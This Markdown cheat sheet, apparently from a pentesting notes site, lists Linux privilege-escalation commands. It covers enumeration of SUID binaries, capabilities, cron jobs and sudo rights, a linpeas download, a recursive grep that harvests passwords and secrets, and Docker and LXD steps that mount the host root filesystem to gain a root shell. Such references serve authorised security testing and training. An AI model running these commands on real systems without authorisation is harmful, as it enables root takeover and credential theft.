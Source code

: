 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux Privilege Escalation

## LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can blacklist words on the `grep -Ev` section.

For example, to filter the actual user processes: `grep -Ev "kworker|$USER"`
{% endhint %}

{% code overflow="wrap" %}
```bash
while true; do new=$(ps -eo user,cmd); diff <(echo "$old") <(echo "$new") | grep -E "<|>" | grep -Ev "kworker"; old=$new; done
```
{% endcode %}

## User Files

```bash
find / -xdev -user <user> 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -P -a -i -R --exclude="*."{js,css,html} "(\b\w*(pass|pwd|auth|secret)\w*\b\s*[:=]\s*\S+)|['\"]\s*\w*(pass|pwd|auth|secret)\w*\s*['\"]\s*:\s*['\"]\S+['\"]|\(\s*['\"]\w*(pass|pwd|auth|secret)\w*['\"]\s*,\s*['\"]\S+['\"]\s*\)|(\w+://\S+:\S+@)|(\\$\w{1,4}[\\$./A-Za-z0-9]{8,50})"
```
{% endcode %}

